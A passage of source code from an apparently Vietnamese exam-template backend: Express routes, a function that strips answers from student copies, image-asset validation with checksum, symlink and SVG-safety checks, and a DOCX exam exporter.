    await fs.rm(directory, { recursive: true, force: true });
  }
}

module.exports = { docxToPdf };

```

### FILE: backend/parser/examRedaction.js

```javascript
// Ban de gui hoc sinh (link chia se): bo dap an, loi giai, co is_correct va
// snapshot template (chua noi dung + dap an slot). Dung chung cho trinh duyet
// (link ?data=) va server (GET /api/exams/shared/:code) - an bang CSS khong du
// vi hoc sinh co the tat che do hoc sinh hoac doc payload.
export function redactExamForStudent(exam) {
  if (!exam || typeof exam !== 'object') return exam;
  const { template_binding: _binding, ...rest } = exam;
  return {
    ...rest,
    redacted_for_student: true,
    blocks: (Array.isArray(exam.blocks) ? exam.blocks : []).map(block => ({
      ...block,
      questions: (Array.isArray(block?.questions) ? block.questions : []).map(question => {
        const { correct_answer: _answer, explanation: _explanation, ...safe } = question || {};
        return {
          ...safe,
          correct_answer: null,
          explanation: null,
          options: Array.isArray(question?.options)
            ? question.options.map(({ is_correct: _correct, ...option }) => ({ ...option, is_correct: false }))
            : question?.options
        };
      })
    }))
  };
}

```

### FILE: backend/routes/templateExportRoutes.js

```javascript
const express = require('express');
const { analyzeTemplateExport, createTemplateDocx, loadMath } = require('../templateExport');
const router = express.Router();

router.post('/analyze', async (req, res) => {
  try { await loadMath(); res.json({ success: true, ...analyzeTemplateExport(req.body || {}) }); }
  catch (error) { res.status(400).json({ success: false, error: error.message }); }
});

router.post('/docx', async (req, res) => {
  try {
    const result = await createTemplateDocx(req.body || {});
    res.set('Content-Type', 'application/vnd.openxmlformats-officedocument.wordprocessingml.document');
    res.set('Content-Disposition', 'attachment; filename="exam-template.docx"');
    res.set('X-Estimated-Pages', String(result.analysis.estimatedPages));
    res.set('X-Pagination-Overflow', result.analysis.warnings.some(x => x.code === 'MAX_PAGES_ESTIMATE') ? 'true' : 'false');
    res.send(result.buffer);
  } catch (error) { res.status(400).json({ success: false, error: error.message }); }
});

module.exports = router;

```

### FILE: backend/routes/templatePromptRoutes.js

```javascript
const express = require('express');
const { buildTemplatePrompt, prepareTemplateApply, parseTemplateReviewReport } = require('../templatePrompts');

const router = express.Router();

router.post('/build', (req, res) => {
  try {
    const result = buildTemplatePrompt(req.body || {});
    res.json({ success: true, ...result });
  } catch (error) { res.status(400).json({ success: false, error: error.message }); }
});

router.post('/prepare', async (req, res) => {
  try {
    const result = await prepareTemplateApply(req.body || {});
    res.json({ success: true, draft: result });
  } catch (error) { res.status(400).json({ success: false, error: error.message }); }
});

router.post('/review-report', (req, res) => {
  try {
    const report = parseTemplateReviewReport(req.body?.rawText, req.body?.selectedSlotIds || []);
    res.json({ success: true, report });
  } catch (error) { res.status(400).json({ success: false, error: error.message }); }
});

module.exports = router;

```

### FILE: backend/routes/templateRoutes.js

```javascript
const express = require('express');
const repository = require('../templates/repository');
const { validateTemplate } = require('../templates/validation');
const router = express.Router();

function sendError(res, error) {
  if (error instanceof repository.TemplateError) return res.status(error.status).json({ success: false, error: error.message, details: error.details });
  console.error(error);
  return res.status(500).json({ success: false, error: 'Lỗi xử lý mẫu' });
}

router.get('/', async (req, res) => {
  try { res.json({ success: true, templates: await repository.listTemplates({ origin: req.query.origin, search: req.query.search }) }); }
  catch (error) { sendError(res, error); }
});

router.post('/validate', (req, res) => {
  const details = validateTemplate(req.body.template || req.body);
  res.status(details.length ? 400 : 200).json({ success: !details.length, valid: !details.length, details, ...(details.length ? { error: 'Dữ liệu mẫu không hợp lệ' } : {}) });
});

router.get('/:id', async (req, res) => {
  try {
    const template = await repository.getTemplate(req.params.id, req.query.version);
    if (!template) return res.status(404).json({ success: false, error: 'Không tìm thấy mẫu' });
    res.json({ success: true, template });
  } catch (error) { sendError(res, error); }
});

router.post('/', async (req, res) => {
  try {
    const template = req.body.clone_from
      ? await repository.cloneAndCreate(req.body.clone_from, req.body.display_name)
      : await repository.createTemplate(req.body.template || req.body);
    res.status(201).json({ success: true, template });
  } catch (error) { sendError(res, error); }
});

router.post('/:id/clone', async (req, res) => {
  try { res.status(201).json({ success: true, template: await repository.cloneAndCreate(req.params.id, req.body.display_name) }); }
  catch (error) { sendError(res, error); }
});

router.put('/:id', async (req, res) => {
  try {
    const template = await repository.updateTemplate(req.params.id, req.body.template || req.body, Number(req.body.expected_version));
    res.json({ success: true, template });
  } catch (error) { sendError(res, error); }
});

router.delete('/:id', async (req, res) => {
  try { await repository.deleteTemplate(req.params.id); res.json({ success: true }); }
  catch (error) { sendError(res, error); }
});

module.exports = router;

```

### FILE: backend/templateExport/assets.js

```javascript
const fs = require('fs');
const path = require('path');
const crypto = require('crypto');
const { createCanvas, Image } = require('@napi-rs/canvas');

const MAX_IMAGE_BYTES = 5 * 1024 * 1024;
const ID = /^image-[0-9a-f]{64}$/;
const MIME = { png: 'image/png', jpg: 'image/jpeg', jpeg: 'image/jpeg', webp: 'image/webp', svg: 'image/svg+xml' };

function imageDir() { return path.resolve(process.env.EXAM_BACKGROUNDS_DIR || path.join(__dirname, '..', '..', 'resources', 'backgrounds')); }
function signature(buffer, extension) {
  if (extension === 'png') return buffer.length >= 24 && buffer.subarray(0, 8).equals(Buffer.from([137, 80, 78, 71, 13, 10, 26, 10])) && buffer.toString('ascii', 12, 16) === 'IHDR' && buffer.readUInt32BE(16) > 0 && buffer.readUInt32BE(20) > 0 && buffer.readUInt32BE(16) <= 10000 && buffer.readUInt32BE(20) <= 10000;
  return buffer.length >= 4 && buffer[0] === 0xff && buffer[1] === 0xd8 && buffer[buffer.length - 2] === 0xff && buffer[buffer.length - 1] === 0xd9;
}

// Anh raster (WebP...) cua @napi-rs/canvas giai ma bat dong bo: gan src roi ve
// ngay se ra PNG trong suot, nen phai cho decode() truoc khi drawImage.
async function decodeImage(data) {
  const image = new Image();
  image.src = data;
  if (typeof image.decode === 'function') await image.decode();
  return image;
}

async function rasterize(data, extension) {
  if (extension === 'png' || extension === 'jpg' || extension === 'jpeg') return { data, type: extension === 'png' ? 'png' : 'jpg' };
  assertConvertible(data, extension);
  const image = await decodeImage(data);
  if (!Number.isInteger(image.width) || !Number.isInteger(image.height) || image.width < 1 || image.height < 1 || image.width > 10000 || image.height > 10000 || image.width * image.height > 20000000) throw new Error('Kích thước ảnh vượt giới hạn DOCX.');
  const scale = Math.min(1, 2400 / Math.max(image.width, image.height));
  const canvas = createCanvas(Math.max(1, Math.round(image.width * scale)), Math.max(1, Math.round(image.height * scale)));
  canvas.getContext('2d').drawImage(image, 0, 0, canvas.width, canvas.height);
  const png = canvas.toBuffer('image/png');
  if (png.length > MAX_IMAGE_BYTES) throw new Error('Ảnh PNG chuyển đổi vượt giới hạn DOCX.');
  return { data: png, type: 'png' };
}

function assertConvertible(data, extension) {
  if (extension === 'webp' && !(data.length >= 12 && data.toString('ascii', 0, 4) === 'RIFF' && data.toString('ascii', 8, 12) === 'WEBP')) throw new Error('Chữ ký WebP không hợp lệ.');
  if (extension === 'svg') {
    const xml = data.toString('utf8').trim();
    if (data.length > 256 * 1024 || !/^<svg\s/i.test(xml) || /<!|<\?|\b(?:script|foreignObject|image|use|animate|set|style|filter|pattern|mask|clipPath|iframe|object|embed)\b|\bon[a-z]+\s*=|\b(?:href|src|style)\s*=|url\s*\(|javascript\s*:/i.test(xml)) throw new Error('SVG không an toàn để chuyển đổi.');
  }
}

// Doc + kiem tra dong bo (checksum, chu ky, SVG an toan) - dung cho uoc luong
// truoc khi xuat; chua raster hoa nen `data` la byte goc.
function readImageAsset(assetId) {
  if (typeof assetId !== 'string' || !ID.test(assetId)) throw new Error('Mã ảnh không hợp lệ.');
  const directory = imageDir();
  const metadataPath = path.join(directory, `${assetId}.json`);
  if (fs.lstatSync(metadataPath).isSymbolicLink()) throw new Error('Metadata ảnh không hợp lệ.');
  const metadata = JSON.parse(fs.readFileSync(metadataPath, 'utf8'));
  const filename = metadata.filename;
  if (metadata.asset_id !== assetId || typeof filename !== 'string' || !new RegExp(`^${assetId}\\.(png|jpg|jpeg|webp|svg)$`).test(filename)) throw new Error('Metadata ảnh không hợp lệ hoặc định dạng chưa hỗ trợ trong DOCX.');
  const extension = path.extname(filename).slice(1).toLowerCase();
  if (metadata.mime !== MIME[extension] || (extension === 'svg' && statSize(metadata.size) > 256 * 1024)) throw new Error('MIME ảnh không khớp định dạng hoặc SVG quá lớn.');
  const filepath = path.join(directory, filename);
  if (fs.lstatSync(filepath).isSymbolicLink()) throw new Error('Ảnh liên kết không được hỗ trợ.');
  const stat = fs.statSync(filepath);
  if (!stat.isFile() || stat.size > MAX_IMAGE_BYTES || stat.size !== metadata.size) throw new Error('Ảnh quá lớn hoặc kích thước không khớp metadata.');
  const data = fs.readFileSync(filepath);
  const hash = crypto.createHash('sha256').update(data).digest('hex');
  if (hash !== assetId.slice(6) || metadata.sha256 !== hash || (['png', 'jpg', 'jpeg'].includes(extension) ? !signature(data, extension) : extension === 'svg' ? !/^<svg\s/i.test(data.toString('utf8').trim()) : !(data.length >= 12 && data.toString('ascii', 0, 4) === 'RIFF' && data.toString('ascii', 8, 12) === 'WEBP'))) throw new Error('Ảnh không vượt qua kiểm tra chữ ký/checksum.');
  if (!['png', 'jpg', 'jpeg'].includes(extension)) assertConvertible(data, extension);
  return { data, extension, metadata };
}

async function loadImageAsset(assetId) {
  const { data, extension, metadata } = readImageAsset(assetId);
  return { ...(await rasterize(data, extension)), metadata };
}

function statSize(size) { return Number.isFinite(size) ? size : Infinity; }

module.exports = { readImageAsset, loadImageAsset, decodeImage, MAX_IMAGE_BYTES };

```

### FILE: backend/templateExport/index.js

```javascript
const { Document, Packer, Paragraph, TextRun, Header, Footer, PageNumber, AlignmentType, HeadingLevel, Table, TableRow, TableCell, WidthType, HeightRule, BorderStyle, ImageRun, HorizontalPositionRelativeFrom, VerticalPositionRelativeFrom, TextWrappingType } = require('docx');
const { flatten } = require('../templatePrompts');
const { readImageAsset, loadImageAsset, decodeImage } = require('./assets');
const path = require('path');
const { pathToFileURL } = require('url');
const { createCanvas } = require('@napi-rs/canvas');

// Word la text tinh: dung chung latexToPlainText voi exporter DOCX cu de
// "$\sqrt{16}$" khong hien tho trong file. Module ESM nen nap dong mot lan.
let latexToPlainText = text => text;
let mathReady;
function loadMath() {
  mathReady ||= import(pathToFileURL(path.join(__dirname, '..', 'parser', 'mathFormat.js')).href)
    .then(mod => { latexToPlainText = mod.latexToPlainText; });
  return mathReady;
}
function plain(value, limit) { return latexToPlainText(safeString(value, limit)); }
// Loai cau lay tu slot: noi dung nhap tay trong inspector khong co question_type.
function answerText(q, slot) { return (slot?.question_type || q?.question_type) === 'TRUE_FALSE' ? (q?.correct_answer === 'Dung' ? 'Đúng' : q?.correct_answer === 'Sai' ? 'Sai' : plain(q?.correct_answer)) : plain(q?.correct_answer); }

// DOCX khong bao dam opacity cua anh: tron san anh nen voi nen trang theo do mo.
async function fadeImage(image, opacity) {
  if (!image || typeof opacity !== 'number' || !(opacity > 0 && opacity < 1)) return image;
  try {
    const source = await decodeImage(image.data);
    const canvas = createCanvas(source.width, source.height);
    const ctx = canvas.getContext('2d');
    ctx.fillStyle = '#ffffff';
    ctx.fillRect(0, 0, canvas.width, canvas.height);
    ctx.globalAlpha = opacity;
    ctx.drawImage(source, 0, 0);
    return { ...image, data: canvas.toBuffer('image/png'), type: 'png' };
  } catch { return image; }
}

const MM = 56.692913;
const PAPER = { A4: [210, 297], A5: [148, 210] };
const MODES = new Set(['student', 'teacher', 'answer_key', 'combined']);

function safeString(value, limit = 100000) {
  const text = String(value ?? '');
  if (text.length > limit) throw new Error('Một trường nội dung quá dài để xuất an toàn.');
  return text.replace(/[\u0000-\u0008\u000B\u000C\u000E-\u001F]/g, '');
}
function twips(mm) { return Math.round(mm * MM); }

function normalizeOptions(input = {}) {
  const paper = input.paper || {};
  const size = paper.size || 'A4';
  const orientation = paper.orientation || 'portrait';
  const margins = { top: 20, right: 18, bottom: 20, left: 18, ...(paper.margins || {}) };
  if (!PAPER[size] || !['portrait', 'landscape'].includes(orientation)) throw new Error('Khổ giấy hoặc chiều giấy không hợp lệ.');
  if (Object.values(margins).some(value => typeof value !== 'number' || !Number.isFinite(value) || value < 5 || value > 40)) throw new Error('Lề trang phải từ 5 đến 40 mm.');
  const [w, h] = PAPER[size];
  const [width, height] = orientation === 'landscape' ? [h, w] : [w, h];
  const columns = input.columns === 2 ? 2 : 1;
  const mode = input.mode || 'student';
  if (!MODES.has(mode)) throw new Error('Chế độ xuất không hợp lệ.');
  const maxPages = input.maxPages == null ? null : Number(input.maxPages);
  if (maxPages !== null && (!Number.isInteger(maxPages) || maxPages < 1 || maxPages > 200)) throw new Error('Giới hạn trang không hợp lệ.');
  return { mode, columns, maxPages, size, orientation, margins, width, height };
}

function backgroundPages(background = {}) {
  const pages = Array.isArray(background.pages) ? background.pages.filter(page => Number.isInteger(Number(page.page_number)) && Number(page.page_number) > 0 && page.asset_id) : [];
  if (pages.length) return [...pages].sort((a, b) => Number(a.page_number) - Number(b.page_number));
  return background.asset_id ? [{ page_number: 1, asset_id: background.asset_id }] : [];
}

function validRegion(region) {
  if (!region || !Number.isInteger(Number(region.page_number)) || Number(region.page_number) < 1) return false;
  return ['x_pct', 'y_pct', 'width_pct', 'height_pct'].every(key => Number.isFinite(Number(region[key])) && Number(region[key]) >= 0 && Number(region[key]) <= 100) && Number(region.width_pct) > 0 && Number(region.height_pct) > 0 && Number(region.x_pct) + Number(region.width_pct) <= 100 && Number(region.y_pct) + Number(region.height_pct) <= 100;
}

function analyzeTemplateExport(input) {
  const { template, content = {}, metadata = {} } = input;
  const slots = flatten(template);
  if (slots.length > 500) throw new Error('DOCX hỗ trợ tối đa 500 slot mỗi lần xuất.');
  const options = normalizeOptions(input);
  const warnings = [];
  let imageBytes = 0;
  const usableHeight = options.height - options.margins.top - options.margins.bottom;
  const usableWidth = (options.width - options.margins.left - options.margins.right) / options.columns;
  let estimatedMm = 34;
  const bgPages = backgroundPages(template.appearance?.background);
  const availablePageNumbers = new Set();
  slots.forEach(({ section, slot, sectionIndex, slotIndex }) => {
    const q = content[slot.slot_id] || slot.content;
    const location = `Phần ${sectionIndex + 1} – Câu ${slotIndex + 1}`;
    if (!q) warnings.push({ code: 'EMPTY_SLOT', section_id: section.section_id, slot_id: slot.slot_id, message: `${location}: chưa có nội dung.` });
    const textLength = safeString(q?.content).length + (q?.options || []).reduce((n, o) => n + safeString(o.option_text).length, 0);
    estimatedMm += 7 + Math.ceil(textLength / Math.max(24, Math.floor(usableWidth / 2.8))) * 5;
    if (options.mode === 'student' || options.mode === 'combined') estimatedMm += Math.min(Number(slot.answer_space?.lines || 0), 50) * 6;
    if (options.mode === 'teacher' || options.mode === 'combined' || options.mode === 'answer_key') estimatedMm += Math.ceil((safeString(q?.correct_answer).length + safeString(q?.explanation).length) / Math.max(24, Math.floor(usableWidth / 2.8))) * 5 + 8;
    if (Array.isArray(slot.assets)) for (const asset of slot.assets) {
      try { imageBytes += readImageAsset(typeof asset === 'string' ? asset : asset?.asset_id).data.length; }
      catch { warnings.push({ code: 'ASSET_NOT_EMBEDDED', section_id: section.section_id, slot_id: slot.slot_id, message: `${location}: ảnh đính kèm thiếu, sai checksum hoặc định dạng không hỗ trợ trong DOCX.` }); }
    }
  });
  const background = template.appearance?.background;
  for (const page of bgPages) {
    try { imageBytes += readImageAsset(page.asset_id).data.length; availablePageNumbers.add(Number(page.page_number)); }
    catch { warnings.push({ code: 'BACKGROUND_NOT_EMBEDDED', page_number: Number(page.page_number), message: `Ảnh nền trang ${Number(page.page_number)} thiếu, sai checksum hoặc định dạng không hỗ trợ; nội dung đề vẫn đầy đủ.` }); }
  }
  slots.forEach(({ section, slot, sectionIndex, slotIndex }) => {
    if (slot.manual_region && (!validRegion(slot.manual_region) || !availablePageNumbers.has(Number(slot.manual_region.page_number)))) warnings.push({ code: 'MANUAL_REGION_NOT_APPLIED', section_id: section.section_id, slot_id: slot.slot_id, message: `Phần ${sectionIndex + 1} – Câu ${slotIndex + 1}: vùng tọa độ tay không hợp lệ hoặc thiếu ảnh trang tương ứng; câu vẫn được xuất theo luồng nội dung.` });
  });
  if (background?.asset_id || bgPages.length) {
    if (['middle', 'last'].includes(background.apply_to) && !Array.isArray(background.pages)) warnings.push({ code: 'BACKGROUND_SCOPE_LIMIT', message: 'Nền giữa/cuối cần manifest ảnh cho từng trang hoặc gặp giới hạn định dạng Word; template chỉ có một ảnh nên DOCX dùng ảnh đó chung.' });
    if (typeof background.opacity === 'number' && background.opacity < 1) warnings.push({ code: 'BACKGROUND_OPACITY_BAKED', message: `Ảnh nền được làm nhạt sẵn theo độ đậm ${background.opacity} khi nhúng DOCX; hãy kiểm tra độ tương phản chữ trong Word.` });
  }
  const placed = slots.filter(({ slot }) => validRegion(slot.manual_region) && availablePageNumbers.has(Number(slot.manual_region.page_number)));
  if (bgPages.length && placed.length !== slots.length) warnings.push({ code: 'UNPOSITIONED_CONTENT', message: `${slots.length - placed.length} slot không gắn vùng tọa độ sẽ xuất thành nội dung theo dòng sau các trang nền.` });
  if (placed.length) warnings.push({ code: 'MANUAL_REGION_RASTERIZED', message: `${placed.length} slot gắn vùng tọa độ được render thành ảnh trong DOCX để giữ vị trí trên nền; nội dung vẫn có mô tả thay thế, còn slot không gắn vùng giữ văn bản Word chỉnh sửa được.` });
  placed.forEach(item => {
    const index = slots.findIndex(entry => entry.slot.slot_id === item.slot.slot_id);
    try {
      if (manualRegionTextbox({ ...item, slotIndex: index }, content, options.mode, options).overflow) warnings.push({ code: 'MANUAL_REGION_OVERFLOW', section_id: item.section.section_id, slot_id: item.slot.slot_id, message: `Câu ${index + 1}: nội dung vượt vùng tọa độ; DOCX sẽ giữ câu ở phần nội dung theo dòng thay vì cắt chữ.` });
    } catch { /* asset and coordinates are validated separately; preserve document export */ }
  });
  if (imageBytes > 20 * 1024 * 1024) warnings.push({ code: 'ASSET_BUDGET', message: 'Tổng ảnh vượt 20 MiB; một số ảnh sẽ bị bỏ qua trong DOCX để giữ tệp ổn định.' });
  if (options.mode === 'combined') estimatedMm += 20;
  const estimatedPages = Math.max(1, bgPages.length, Math.ceil(estimatedMm / usableHeight / options.columns));
  if (options.maxPages && estimatedPages > options.maxPages) warnings.push({ code: 'MAX_PAGES_ESTIMATE', message: `Ước lượng ${estimatedPages} trang, vượt giới hạn ${options.maxPages}. DOCX vẫn giữ toàn bộ nội dung; hãy kiểm tra trong Word.` });
  return { options, estimatedPages, warnings, slotCount: slots.length, metadata };
}

function p(text, options = {}) { return new Paragraph({ children: [new TextRun({ text: safeString(text), bold: Boolean(options.bold) })], spacing: { after: options.after ?? 120 }, heading: options.heading }); }
function label(slot, number) { return `Câu ${number} (${safeString(slot.points, 20)} điểm).`; }

function answerSpaceChildren(space = {}) {
  const count = Math.min(Math.max(Number(space.lines || 0), 0), 50);
  if (!count || space.kind === 'none') return [];
  if (space.kind === 'lined') return Array.from({ length: count }, () => p('________________________________________________________________________________', { after: 80 }));
  const kind = space.kind || 'blank';
  const rows = kind === 'drawing' || kind === 'blank' ? 1 : count;
  const columns = kind === 'squared' ? 8 : kind === 'table' ? 3 : 1;
  const border = { style: BorderStyle.SINGLE, size: 4, color: '888888' };
  const tableRows = Array.from({ length: rows }, () => new TableRow({
    cantSplit: true,
    height: { value: kind === 'drawing' || kind === 'blank' ? Math.max(400, count * 180) : 280, rule: HeightRule.ATLEAST },
    children: Array.from({ length: columns }, () => new TableCell({ children: [p('', { after: 0 })], borders: { top: border, bottom: border, left: border, right: border } }))
  }));
  return [new Table({ rows: tableRows, width: { size: 100, type: WidthType.PERCENTAGE }, borders: { top: border, bottom: border, left: border, right: border, insideHorizontal: border, insideVertical: border } })];
}

function questionChildren(q, slot, number, mode, images = []) {
  const out = [p(`${label(slot, number)} ${q ? plain(q.content) : '[Chưa có nội dung]'} `, { bold: true, after: 80 })];
  if (q?.options) for (const option of q.options) out.push(p(`${safeString(option.option_key, 2)}. ${plain(option.option_text)}`, { after: 30 }));
  if (slot.question_type === 'TRUE_FALSE' && mode !== 'answer_key') out.push(p('☐ Đúng      ☐ Sai', { after: 30 }));
  for (const item of images) {
    out.push(new Paragraph({ children: [new ImageRun({ type: item.image.type, data: item.image.data, transformation: { width: 320, height: 220 }, altText: { name: 'Hình minh họa', title: safeString(item.caption || 'Hình minh họa', 200), description: safeString(item.caption || 'Hình minh họa', 500) } })] }));
    if (item.caption) out.push(p(item.caption));
  }
  if (mode === 'teacher') {
    out.push(p(`Đáp án: ${answerText(q, slot)}`, { bold: true, after: 50 }));
    out.push(p(`Lời giải: ${plain(q?.explanation)}`, { after: 100 }));
  } else if (mode !== 'answer_key') {
    out.push(...answerSpaceChildren(slot.answer_space));
  }
  return out;
}

// Header/footer are driven by appearance.header/appearance.footer when present;
// without that config the legacy behavior (metadata.header text, page number footer) is kept.
function resolveHeaderText(metadata = {}, template = {}) {
  const config = template.appearance?.header;
  const enabled = config ? config.enabled !== false : true;
  if (!enabled) return '';
  const explicit = safeString(metadata.header, 500).trim();
  if (explicit) return explicit;
  const fields = Array.isArray(config?.fields) ? config.fields : [];
  const parts = [];
  for (const field of fields) {
    if (field === 'school') parts.push(safeString(metadata.school ?? template.defaults?.school_header ?? '', 300));
    else if (field === 'exam_title') parts.push(safeString(metadata.exam_title ?? template.display_name ?? '', 300));
  }
  const text = parts.filter(Boolean).join('    ');
  return text || (config ? safeString(template.display_name || '', 300) : '');
}

function resolveFooter(template = {}, metadata = {}) {
  const config = template.appearance?.footer;
  const enabled = config ? config.enabled !== false : true;
  if (!enabled) return null;
  const fields = Array.isArray(config?.fields) ? config.fields : ['page_number'];
  const runs = [];
  if (metadata.footer) runs.push(new TextRun(safeString(metadata.footer, 500)));
  if (fields.includes('page_number')) {
    if (runs.length) runs.push(new TextRun('    '));
    runs.push(new TextRun({ children: [PageNumber.CURRENT] }));
  }
  if (!runs.length) return null;
  return new Footer({ children: [new Paragraph({ alignment: AlignmentType.CENTER, children: runs })] });
}

function answerChildren(slots, content) {
  const out = [p('ĐÁP ÁN VÀ HƯỚNG DẪN CHẤM', { bold: true, heading: HeadingLevel.HEADING_1 })];
  slots.forEach(({ slot }, i) => {
    const q = content[slot.slot_id] || slot.content;
    out.push(p(`${label(slot, i + 1)} Đáp án: ${answerText(q, slot)}`, { bold: true, after: 50 }));
    out.push(p(`Lời giải: ${plain(q?.explanation)}`));
  });
  return out;
}

function manualRegionTextbox({ slot, slotIndex }, content, mode, options) {
  const q = content[slot.slot_id] || slot.content || {};
  const lines = [`${label(slot, slotIndex + 1)} ${plain(q.content || '[Chưa có nội dung]')}`];
  if (Array.isArray(q.options)) q.options.forEach(option => lines.push(`${safeString(option.option_key, 2)}. ${plain(option.option_text)}`));
  if (mode === 'teacher') {
    lines.push(`Đáp án: ${answerText(q, slot)}`, `Lời giải: ${plain(q.explanation)}`);
  } else if (mode !== 'answer_key') {
    const count = Math.min(Math.max(Number(slot.answer_space?.lines || 0), 0), 50);
    if (count && slot.answer_space?.kind !== 'none') lines.push(...Array.from({ length: count }, () => '____________________________________________'));
  }
  const r = slot.manual_region;
  const left = options.width * Number(r.x_pct) / 100;
  const top = options.height * Number(r.y_pct) / 100;
  const width = options.width * Number(r.width_pct) / 100;
  const height = options.height * Number(r.height_pct) / 100;
  const scale = 7.559; // 2x de xuat anh 96 dpi de van doc duoc khi in.
  const canvas = createCanvas(Math.max(1, Math.round(width * scale)), Math.max(1, Math.round(height * scale)));
  const ctx = canvas.getContext('2d');
  ctx.fillStyle = '#111111';
  ctx.font = 'bold 28px Arial';
  const inset = Math.round(canvas.width * 0.025);
  const lineHeight = 38;
  let y = inset + lineHeight;
  const maxY = canvas.height - inset;
  let overflow = false;
  for (const sourceLine of lines) {
    const words = sourceLine.split(/\s+/);
    let line = '';
    for (const word of words) {
      const candidate = line ? `${line} ${word}` : word;
      if (line && ctx.measureText(candidate).width > canvas.width - inset * 2) {
        if (y + lineHeight > maxY) { overflow = true; break; }
        ctx.fillText(line, inset, y); y += lineHeight; line = word;
      } else line = candidate;
    }
    if (line && !overflow) {
      if (y + lineHeight > maxY) overflow = true;
      else { ctx.fillText(line, inset, y); y += lineHeight; }
    }
    if (overflow) break;
  }
  const image = canvas.toBuffer('image/png');
  return {
    overflow,
    paragraph: new Paragraph({ children: [new ImageRun({ type: 'png', data: image, transformation: { width: Math.max(1, Math.round(width * 3.7795)), height: Math.max(1, Math.round(height * 3.7795)) }, floating: {
      horizontalPosition: { relative: HorizontalPositionRelativeFrom.PAGE, offset: Math.round(left * 36000) },
      verticalPosition: { relative: VerticalPositionRelativeFrom.PAGE, offset: Math.round(top * 36000) },
      behindDocument: false, allowOverlap: true, wrap: { type: TextWrappingType.NONE }
    }, altText: { name: `Câu ${slotIndex + 1} tại vùng trả lời`, title: `Câu ${slotIndex + 1}`, description: safeString(lines.join(' ')).slice(0, 500) } })] })
  };
}

async function createTemplateDocx(input) {
  await loadMath();
  const analysis = analyzeTemplateExport(input);
  const { template, content = {}, metadata = {} } = input;
  const { options } = analysis;
  const slots = flatten(template);
  let embeddedBytes = 0;
  async function embedded(assetId) {
    try {
      const image = await loadImageAsset(assetId);
      if (embeddedBytes + image.data.length > 20 * 1024 * 1024) return null;
      embeddedBytes += image.data.length;
      return image;
    } catch { return null; }
  }
  const backgroundConfig = template.appearance?.background;
  const hasPageBackgrounds = options.mode !== 'answer_key' && Array.isArray(backgroundConfig?.pages) && backgroundConfig.pages.length > 0;
  const pageSpecs = backgroundPages(backgroundConfig);
  // Nen trang nhap tu PDF/DOCX la ban goc can doc ro: chi lam nhat anh nen don.
  const pageImages = new Map();
  for (const page of pageSpecs) pageImages.set(Number(page.page_number), await embedded(page.asset_id));
  const backgroundImage = !hasPageBackgrounds && backgroundConfig?.asset_id ? await fadeImage(await embedded(backgroundConfig.asset_id), backgroundConfig.opacity) : null;
  const slotImages = new Map();
  for (const { slot } of slots) {
    if (!Array.isArray(slot.assets)) continue;
    const images = [];
    for (const asset of slot.assets) {
      const image = await embedded(typeof asset === 'string' ? asset : asset?.asset_id);
      if (image) images.push({ image, caption: typeof asset === 'object' ? asset?.caption : '' });
    }
    slotImages.set(slot.slot_id, images);
  }
  const placedSlotIds = new Set(slots.filter(({ slot }) => hasPageBackgrounds && validRegion(slot.manual_region) && pageImages.has(Number(slot.manual_region.page_number)) && pageImages.get(Number(slot.manual_region.page_number))).map(({ slot }) => slot.slot_id));
  const overlayParagraphs = new Map();
  if (hasPageBackgrounds) slots.forEach((item, index) => {
    if (!placedSlotIds.has(item.slot.slot_id)) return;
    const rendered = manualRegionTextbox({ ...item, slotIndex: index }, content, options.mode, options);
    if (rendered.overflow) {
      placedSlotIds.delete(item.slot.slot_id);
    } else {
      const pageNumber = Number(item.slot.manual_region.page_number);
      if (!overlayParagraphs.has(pageNumber)) overlayParagraphs.set(pageNumber, []);
      overlayParagraphs.get(pageNumber).push(rendered.paragraph);
    }
  });
  const children = [];
  if (options.mode !== 'answer_key') {
    if (!hasPageBackgrounds) {
      children.push(p(safeString(metadata.school || ''), { bold: true, after: 60 }));
      children.push(p(safeString(metadata.exam_title || template.display_name || 'Đề kiểm tra'), { bold: true, heading: HeadingLevel.TITLE }));
      children.push(p(`Môn: ${safeString(metadata.subject || template.defaults?.subject)}    Lớp: ${safeString(metadata.grade || template.defaults?.grade)}    Thời gian: ${safeString(metadata.duration_minutes || template.defaults?.duration_minutes)} phút`));
    }
    let previousSection;
    slots.forEach(({ section, slot }, i) => {
      if (placedSlotIds.has(slot.slot_id)) return;
      if (previousSection !== section.section_id) {
        children.push(p(`${safeString(section.title)}${section.declared_points ? ` (${safeString(section.declared_points, 20)} điểm)` : ''}`, { bold: true, heading: HeadingLevel.HEADING_2 }));
        if (section.stimulus) children.push(p(plain(section.stimulus)));
        previousSection = section.section_id;
      }
      const images = slotImages.get(slot.slot_id) || [];
      children.push(...questionChildren(content[slot.slot_id] || slot.content, slot, i + 1, options.mode, images));
    });
  }
  if (options.mode === 'combined' || options.mode === 'answer_key') {
    if (options.mode === 'combined') children.push(new Paragraph({ pageBreakBefore: true, children: [] }));
    children.push(...answerChildren(slots, content));
  }
  const headerText = resolveHeaderText(metadata, template);
  const buildHeader = withBackground => {
    const children = [];
    if (withBackground && backgroundImage) children.push(new Paragraph({ children: [new ImageRun({ type: backgroundImage.type, data: backgroundImage.data, transformation: { width: Math.round(options.width * 3.7795), height: Math.round(options.height * 3.7795) }, floating: { horizontalPosition: { relative: HorizontalPositionRelativeFrom.PAGE, offset: 0 }, verticalPosition: { relative: VerticalPositionRelativeFrom.PAGE, offset: 0 }, behindDocument: true, allowOverlap: true, wrap: { type: TextWrappingType.NONE } }, altText: { name: 'Nền đề kiểm tra', title: 'Nền đề kiểm tra', description: 'Nền do người dùng tải lên' } })] }));
    if (headerText) children.push(new Paragraph({ children: [new TextRun(headerText)] }));
    return children.length ? new Header({ children }) : null;
  };
  let headers;
  if (backgroundImage) {
    if (backgroundConfig.apply_to === 'first') {
      headers = { first: buildHeader(true) || new Header({ children: [p('')] }), default: buildHeader(false) || new Header({ children: [p('')] }) };
    } else {
      headers = { default: buildHeader(true) };
    }
  } else {
    const only = buildHeader(false);
    if (only) headers = { default: only };
  }
  const footer = resolveFooter(template, metadata);
  const pageSections = hasPageBackgrounds ? pageSpecs.map(page => {
    const image = pageImages.get(Number(page.page_number));
    const overlays = overlayParagraphs.get(Number(page.page_number)) || [];
    const pageHeaderChildren = [];
